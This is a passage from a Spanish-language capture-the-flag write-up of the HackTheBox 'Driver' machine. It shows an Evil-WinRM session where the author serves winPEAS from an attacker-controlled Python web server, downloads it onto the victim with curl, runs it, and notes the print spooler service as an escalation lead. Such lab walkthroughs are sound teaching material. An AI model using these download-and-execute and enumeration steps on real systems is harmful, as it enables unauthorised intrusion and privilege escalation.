 ```bash
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled

*Evil-WinRM* PS C:\Users\tony\Desktop> 
```

Para enumerar un poco mas el sistema <https://github.com/carlospolop/PEASS-ng/releases/tag/20230604-b0985b44>

```bash
*Evil-WinRM* PS C:\Users\tony\Desktop> cd C:\Windows\Temp
*Evil-WinRM* PS C:\Windows\Temp> mkdir Escalada


    Directory: C:\Windows\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/8/2023   8:19 PM                Escalada


*Evil-WinRM* PS C:\Windows\Temp> cd Escalada
*Evil-WinRM* PS C:\Windows\Temp\Escalada> 
```

Ahora nos lo vamos a transferir a la maquina victima

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.106 - - [08/Jun/2023 14:56:19] "GET /winPEASx64.exe HTTP/1.1" 200 -
```

```bash
*Evil-WinRM* PS C:\Windows\Temp\Escalada> curl http://10.10.14.9:80/winPEASx64.exe -o Winpeas.exe
```

Ahora simplemente lo ejecutamos

```bash
*Evil-WinRM* PS C:\Windows\Temp\Escalada> .\Winpeas.exe
```

Y bueno una vez ejecutado vemos esto que ya es interesante por que se esta corriendo **spoolsv**

![](/assets/images/htb-writeup-driver/web7.png)
